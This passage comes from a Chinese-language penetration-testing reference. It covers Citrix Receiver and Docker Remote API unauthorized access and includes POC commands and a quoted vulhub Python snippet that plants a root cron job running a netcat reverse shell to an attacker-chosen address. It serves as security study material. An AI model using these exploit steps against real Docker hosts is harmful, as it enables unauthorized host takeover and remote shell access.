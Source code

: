 **文章**
- [CitrixReceiver平台的一次渗透测试](https://forum.90sec.com/t/topic/310)
- [利用Citrix Receiver浏览器进行渗透](https://mp.weixin.qq.com/s/3p7e27JF6NV6C0_DEPiaqg)

---

## Docker

Docker 是一个开源的引擎可以轻松地为任何应用创建一个轻量级的、可移植的、自给自足的容器。开发者在笔记本上编译测试通过的容器可以批量地在生产环境中部署包括 VMs、bare metal、OpenStack 集群和其他的基础应用平台 Docker。

**Docker Remote API 未授权访问漏洞**
- 简述

    Docker Remote API 是一个取代远程命令行界面（rcli）的 REST API。存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。

- 文章
    - [新姿势之Docker Remote API未授权访问漏洞分析和利用](https://wooyun.js.org/drops/%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8.html)
    - [Docker Remote API未授权访问漏洞复现](https://zgao.top/docker-remote-api%e6%9c%aa%e6%8e%88%e6%9d%83%e8%ae%bf%e9%97%ae%e6%bc%8f%e6%b4%9e%e5%a4%8d%e7%8e%b0/)

- POC | Payload | exp
    - `http://<IP>:2375/version`
        ```bash
        docker -H tcp://<IP>:2375 version
        docker -H tcp://<IP>:2375 run -id -v /etc/crontabs:/tmp alpine:latest
        docker -H tcp://<IP>:2375 ps
        docker -H tcp://<IP>:2375 exec -it a51b5a4a60d9 sh # 进入容器
        ```
    - [netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)
    - [Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)
    - [docker daemon api 未授权访问漏洞](https://github.com/vulhub/vulhub/blob/master/docker/unauthorized-rce/README.zh-cn.md)
        ```
        import docker

        client = docker.DockerClient(base_url='http://your-ip:2375/')
        data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 反弹地址 反弹端口 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
        ```

---

# 分布式
## Hadoop

Hadoop 是一个由 Apache 基金会所开发的分布式系统基础架构。用户可以在不了解分布式底层细节的情况下，开发分布式程序。充分利用集群的威力进行高速运算和存储。
